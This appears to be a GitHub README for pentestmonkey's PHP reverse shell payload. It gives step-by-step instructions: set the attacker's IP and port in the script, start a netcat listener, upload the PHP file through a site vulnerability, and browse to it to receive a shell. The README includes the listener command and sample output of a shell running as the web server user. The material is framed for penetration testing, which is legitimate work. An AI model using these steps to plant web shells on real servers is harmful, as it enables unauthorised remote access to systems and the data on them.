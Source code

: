 # PHP Reverse Shell Payload
A PHP Reverse_shell Payload - use it at your own risk!

## This isn't made by me, it's made by pentestmonkey!

- Guide :
Modify the source

To prevent someone else from abusing your backdoor – a nightmare scenario while pentesting – you need to modify the source code to indicate where you want the reverse shell thrown back to.  Edit the following lines of php-reverse-shell.php:

$ip = '127.0.0.1';  // CHANGE THIS

$port = 1234;       // CHANGE THIS

Get Ready to catch the reverse shell

Start a TCP listener on a host and port that will be accessible by the web server.  Use the same port here as you specified in the script (1234 in this example):

$ nc -v -n -l -p 1234

Upload and Run the script

Using whatever vulnerability you’ve discovered in the website, upload php-reverse-shell.php.  Run the script simply by browsing to the newly uploaded file in your web browser (NB: You won’t see any output on the web page, it’ll just hang if successful):

http://somesite/php-reverse-shell.php

Enjoy your new shell

If all went well, the web server should have thrown back a shell to your netcat listener.  Some useful commans such as w, uname -a, id and pwd are run automatically for you:

$ nc -v -n -l -p 1234

listening on [any] 1234 ...

connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 58012

Linux somehost 2.6.19-gentoo-r5 #1 SMP PREEMPT Sun Apr 1 16:49:38 BST 2007 x86_64 AMD Athlon(tm) 64 X2 Dual Core Processor 4200+ AuthenticAMD GNU/Linux
 16:59:28 up 39 days, 19:54,  2 users,  load average: 0.18, 0.13, 0.10                                                                                                
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
root   :0        19May07 ?xdm?   5:10m  0.01s /bin/sh
uid=81(apache) gid=81(apache) groups=81(apache)
sh: no job control in this shell
sh-3.2$
